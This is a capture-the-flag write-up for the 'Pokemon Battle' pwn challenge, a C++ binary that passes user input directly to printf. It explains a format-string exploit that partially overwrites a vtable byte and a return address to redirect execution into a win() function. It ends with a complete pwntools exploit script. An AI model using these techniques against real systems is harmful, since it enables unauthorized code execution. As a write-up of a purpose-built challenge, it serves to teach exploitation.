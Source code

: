 ## Pokemon Battle
![pokemon](images/pokemon.png)

### Description
>Author: Neobeo\
>Gary wants to challenge you to a virtual battle. Be sure to choose your pokemon well! Here's an early leak of the game, but you should know that it's incomplete and there's currently no way to win.\
>nc fun.chall.seetf.sg 50005\
>MD5: a07506f402f6a3b18ca8ee5f5642a570


### Gain Shell
Format string vuln challenge with given source code c++ for the challenge. The source code its look like this
```c++
// g++ pokemonbattle.cpp -w -o pokemonbattle
#include <iostream>

struct {
    char pokemon[13]; // longest pokemon name is 12 letters (Crabominable)
    virtual void Battle() {
        printf("Let the battle begin...\n");
        // @todo: implement an actual battle
        printf("Your pokemon was defeated. You blacked out!\n");
    }
    virtual void Play() {
        printf("Choose a pokemon: ");
        std::cin.getline(pokemon, sizeof pokemon);
        printf(pokemon);
        printf(", I choose you!\n");
        Battle();
    }
} battler;

int main() {
    battler.Play();
}

void win() {
    system("cat flag.txt");
}
```

The PIE was enabled, and we only have one formatstring with 13 size of input. Where to overwrite?\
In C++, we can overwrite **vtable** of **battler**. Look here at gdb:
![pokemon](images/pokemon2.png)
The program will `call rdx` and rdx come from **vtable of battler**, if we overwrite the vtable to another address and that address contains address of **win** then gameover! We got the shell. Simply our goal is like this

```
Before:
0x555555558150 (batler) -> 0x555555557d68 (vtable) -> 0x5555555551ea (Battle())

After:
0x555555558150 (batler) -> (any_address) -> (win())
``` 

To do our goal before it will write many input and its too complicated. So change our goal to overwrite the return address of **Battle()** to **win()**


Alright, first we need more than one formatstring, to do that we need overwrite vtable to **Play()** again.
Now how to overwrite the vtable? We only have one time formatstring. And the formatstring is in **BSS** not in stack, so we cant use technique like usual.

![pokemon](images/pokemon4.png)

So we must overwrite just 1 bytes vtable from **0x68** to **0x70**. To do that because the address of battler is at offset 7 on formatstring. We can use that offset to overwrite the vtable.
![pokemon](images/pokemon5.png)
So if we input like `%7$n` on formatstring vuln. It will overwite to the inside of that address. For example we got leak address of **battler** with input `%7$p`. So if we input like `%10c%7$n` the address of **battler** will be like this `0x555555558150 (battler) -> 0x000000000000000a`. We just need ovewrite 1 bytes so we use **$hhn** instead of **$n**

```py
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)
```

![pokemon](images/pokemon6.png)

Now we have unlimited formatstring. If you look at the stack rightnow the stack step back 0x20.

![pokemon](images/pokemon6.png)

Its because when we call **Play()** again the stack reduced by 0x20. Our goal is to overwrite address of return which is located at
`0x7fffffffdd78 -> 0x00005555555552b7 (return main+20)`. But we dont have that stack on any offset at formatstring.\
But we do have `0x7fffffffdd70` at offset 8 and `0x7fffffffdd80` at offset 12.

```
0x7fffffffdd50 -> 0x00007fffffffdd70 (offset 8)
0x7fffffffdd70 -> 0x00007fffffffdd80 (offset 12)
```

Like we overwrite the vtable before, if we do `%8$n` it will overwrite the address in `0x7fffffffdd70`. So how we do like this.
```
Overwrite value offset 8 to 0x78, %120c%8$hhn
The address will be like

0x7fffffffdd50 -> 0x00007fffffffdd70 (offset 8)
0x7fffffffdd70 -> 0x00007fffffffdd78 (offset 12)
0x7fffffffdd78 -> 0x00005555555552b7
```
So when we input %12$p it will become `0x00007fffffffdd78` with this we can overwrite the return address!. Oh I told before after we back to **Play()** again, the stack move 0x20, so the offset will be move everytime we do a formatstring. And found the correct offset for the addresss `0x00007fffffffdd78` is **16**.

```py
#overwrite vtable Batle() to Play()
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)

#overwrite
payload = f"%{0x78}c"
payload += "%8$hhn"
p.sendline(payload)

p.sendline("%16$p")
#0x7fffffffdd78
```

Alright with this we can simply do the sametrick when we do `%16$n` it will overwrite the return address which is the **main()** function. After that just overwrite vtable back to **Battle()** and we got shell!. Because there's stack alignment error when call **win()** function. Instead of overwrite to start address of **win()** we overwrite to here:
```bash
pwndbg> p &win
$1 = (<text variable, no debug info> *) 0x5555555552be <win()>
pwndbg> disass 0x5555555552be
Dump of assembler code for function _Z3winv:
   0x00005555555552be <+0>:	endbr64 
   0x00005555555552c2 <+4>:	push   rbp
   0x00005555555552c3 <+5>:	mov    rbp,rsp
   0x00005555555552c6 <+8>:	lea    rdi,[rip+0xdaa]        # overwrite to here
   0x00005555555552cd <+15>:	call   0x5555555550c0 <system@plt>
```
Overwrite to **0xc6**.\
With this now we solve the challenge.\

Full script:

```py
from pwn import *
from sys import *

context.log_level = 'warning'
elf = context.binary = ELF("./pokemonbattle")
p = process("./pokemonbattle")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50005

cmd = """
b*0x555555555274
"""

if(argv[1] == 'gdb'):
	gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
	p = remote(HOST,PORT)

#overwrite vtable Batle() to Play()
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)

#overwrite
payload = f"%{0x78}c"
payload += "%8$hhn"
p.sendline(payload)

# p.sendline("%16$p")
# #0x7fffffffdd78

#gdb.attach(p,cmd)
payload = f"%{0xc6}c"
payload += "%16$hhn"
p.sendline(payload)


payload = f"%{0x68}c"
payload += "%7$hhn"
p.sendline(payload)
p.interactive()
```